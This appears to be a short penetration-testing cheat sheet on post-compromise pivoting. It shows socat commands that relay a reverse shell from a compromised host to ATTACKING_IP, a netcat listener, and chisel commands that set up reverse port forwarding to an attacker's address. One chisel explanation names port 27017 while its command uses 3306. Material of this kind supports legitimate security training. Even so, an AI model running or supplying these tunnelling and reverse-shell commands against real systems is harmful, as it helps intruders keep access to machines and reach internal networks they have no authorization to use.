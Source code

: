 #### Useful binaries 
https://github.com/andrew-d/static-binaries

#### Socat 
>If we have gain access to a machine then socat can encrypted create a relay on compromised machine and we can get a reverse shell on another machine and socat forwards to our machine.
>Can be used in both linux and windows systems.
>Can be used to create encrypted port forward and relays.
```
sudo python3 -m http.server 80
Download the binary in compromised host using curl/wget.
```

##### In local machine 
>nc -nvlp 7000

##### In Compromised Machine
>./socat tcp-l:8000 tcp:ATTACKING_IP:7000 &

#### Killing Socat Connections
```
jobs
kill PID
```

#### Chisel

##### Reverse Port Forwarding with Chisel
###### In attacking machine
```
chisel server --host 10.50.102.117  -p 1234 --reverse

    server: run the server mode
    -p : port for the server to listen on
    --reverse: allows reverse port forwarding
```
###### In Compromised Machine

```
chisel client 10.50.102.117:1234 R:2222:127.0.0.1:3306/tcp

    client : run the client mode
    10.50.102.117:1234 : the IP address of the attacker’s machine and the port that was specified in the chisel server command
    R:2222:127.0.0.1:27017/tcp: the R means we want to perform a reverse port forward; 2222 is the port number we want to use to route traffic through on the attacker’s machine; 127.0.0.1:27017 is the IP address/port we want to route our traffic to on the client’s machine; /tcp means we want to use the TCP protocol.
```


